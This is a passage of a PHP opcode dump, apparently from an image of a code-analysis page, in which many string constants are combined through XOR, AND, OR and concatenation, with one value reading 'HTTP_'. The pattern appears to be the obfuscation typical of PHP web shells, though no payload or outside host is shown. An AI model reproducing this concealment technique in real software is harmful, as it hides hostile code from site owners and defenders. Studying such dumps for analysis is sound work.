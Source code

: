 ```
        33      ASSIGN                                                   !6, ~0
        34      EXT_STMT
        35      ASSIGN                                                   !7, 'vruo_rep%7Eegu'
        36      EXT_STMT
        37      ASSIGN                                                   !8, '5'
   7    38      EXT_STMT
        39      EXT_STMT
        40      FETCH_CONSTANT                                   ~1      'jq'
        41      BW_XOR                                           ~0      'F%2A', ~1
        42      ASSIGN                                                   !9, ~0
        43      EXT_STMT
        44      ASSIGN                                                   !10, 'hd5'
   8    45      EXT_STMT
        46      ASSIGN                                                   !11, 'gDtALf'
        47      EXT_STMT
        48      ASSIGN                                                   !12, 'c533e'
        49      EXT_STMT
        50      ASSIGN                                                   !13, 'e03'
        51      EXT_STMT
        52      FETCH_CONSTANT                                   ~1      '_'
        53      BW_XOR                                           ~0      ~1, '9'
        54      ASSIGN                                                   !14, ~0
   9    55      EXT_STMT
        56      FETCH_CONSTANT                                   ~1      'km'
        57      FETCH_CONSTANT                                   ~2      'iw'
        58      BW_AND                                           ~0      ~1, ~2
        59      ASSIGN                                                   !15, ~0
        60      EXT_STMT
        61      ASSIGN                                                   !16, 'HTTP_'
        62      EXT_STMT
        63      FETCH_CONSTANT                                   ~1      'Z'
        64      BW_AND                                           ~0      '%7D', ~1
        65      ASSIGN                                                   !17, ~0
        66      EXT_STMT
        67      FETCH_CONSTANT                                   ~1      'KD'
        68      BW_AND                                           ~0      ~1, '%7DV'
        69      ASSIGN                                                   !18, ~0
  10    70      EXT_STMT
        71      EXT_STMT
        72      BW_AND                                           ~0      !1, !2
        73      ASSIGN                                                   !19, ~0
        74      EXT_STMT
        75      BW_OR                                            ~0      '-%60%25', !10
        76      ASSIGN                                                   !20, ~0
  11    77      EXT_STMT
        78      BW_OR                                            ~0      !3, !11
        79      ASSIGN                                                   !21, ~0
        80      EXT_STMT
        81      FETCH_CONSTANT                                   ~1      'aR8Q9'
        82      CONCAT                                           ~0      '%22%21N%3F7%3A%26I%2B', ~1
        83      FETCH_CONSTANT                                   ~2      'QhGU'
        84      CONCAT                                           ~1      'AR%22', ~2
        85      CONCAT                                           ~2      ~1, '%2C%5D%3E4M%3FV'
        86      BW_XOR                                           ~1      ~0, ~2
  12    87      FETCH_CONSTANT                                   ~2      '_owns'
        88      CONCAT                                           ~0      'ga%7E%7D_w%7B%7D%7B', ~2
        89      FETCH_CONSTANT                                   ~2      '_ownw'
        90      CONCAT                                           ~3      'gu%7E%7D_w%7B%7D%7B', ~2
        91      BW_AND                                           ~2      ~0, ~3
        92      BW_AND                                           ~0      ~1, ~2
        93      ASSIGN                                                   !22, ~0
        94      EXT_STMT
```